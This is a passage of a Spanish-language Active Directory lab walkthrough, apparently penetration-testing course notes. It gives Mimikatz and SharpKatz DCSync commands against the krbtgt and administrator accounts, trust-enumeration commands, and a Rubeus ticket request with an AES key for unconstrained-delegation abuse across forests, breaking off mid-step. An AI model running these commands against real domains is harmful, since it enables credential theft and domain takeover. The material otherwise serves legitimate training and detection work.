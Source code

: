 ```
# Abusar de TGS a LDAP
### Forma 1
### Realizar ataque DCSync sobre el usuario krbtgt
Invoke-Mimikatz -Command '"lsadump::dcsync /user:eu\krbtgt /domain:eu.local"'

### Forma 2
### Realizar ataque DCSync sobre el usuario krbtgt
C:\AD\Tools\SharpKatz.exe --Command dcsync --User eu\krbtgt --Domain eu.local --DomainController eu-dc.eu.local

### Forma 3
### Realizar ataque DCSync sobre el usuario administrator
C:\AD\Tools\SharpKatz.exe --Command dcsync --User eu\administrator --Domain eu.local --DomainController eu-dc.eu.local
```

- Cuando se realiza un DCSync Attack, se generará un evento de registro de ID 4662 en el servidor afectado.
## Unconstrained Delegation

Unconstrained Delegation ambién funciona a través de un bosque de dos vías de confianza con TGT Delegación activada. Delegación TGT está desactivada por defecto y debe activarse explícitamente a través de un fideicomiso para el bosque de confianza (destino).  

- En el laboratorio, TGTDelegation se establece de usvendor.local a techcorp.local (pero no para la otra dirección).  

Para enumerar si TGTDelegation está habilitado en un bosque de confianza, ejecute el siguiente comando desde un DC:

```
netdom trust trustingforest /domain:trustedforest /EnableTgtDelegation
```

Ejemplo, se ejecutará en usvendor-dc

```
netdom trust usvendor.local /domain:techcorp.local /EnableTgtDelegation

### PowerShell ADModule
Get-ADTrust -servidor usvendor.local -Filtro *
```

Unconstrained Delegation a través de confianzas forestales sigue el mismo camino que Unconstrained Delegation dentro de un mismo bosque:

1. Impersonar al usuario con privilegios sobre el host con Unconstrained Delegation

```
C:\Windows\system32> C:\AD\Tools\Rubeus.exe asktgt /domain:us.techcorp.local /user:webmaster /aes256:2a653f166761226eb2e939218f5a34d3d2af005a91f160540da6e4a5e29de8a0 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

2. Llevar Rubeus a host con Unconstrained Delegation
